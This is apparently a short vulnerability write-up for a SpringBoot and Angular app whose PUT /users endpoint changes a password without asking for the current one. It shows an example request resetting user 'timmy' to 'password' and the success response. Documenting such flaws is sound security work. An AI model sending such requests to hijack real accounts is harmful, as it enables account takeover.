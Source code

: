 # Lack Password Change Validation/Check
It is widely acknowledged that for users to change a password they ought to be questioned for their current password.  This prevents session hijacks from changing the user's password after gaining control.

## Exploitation
**Prerequisites:** Authenticated
**Location:** _PUT /users_

SpringBoot and Angular code lack any validating parameter for the current password. To exploit simply means to change the password as this is exactly what a session hijacker would do.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "newPassword" : "password",
        "username" : "timmy"
    }

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }
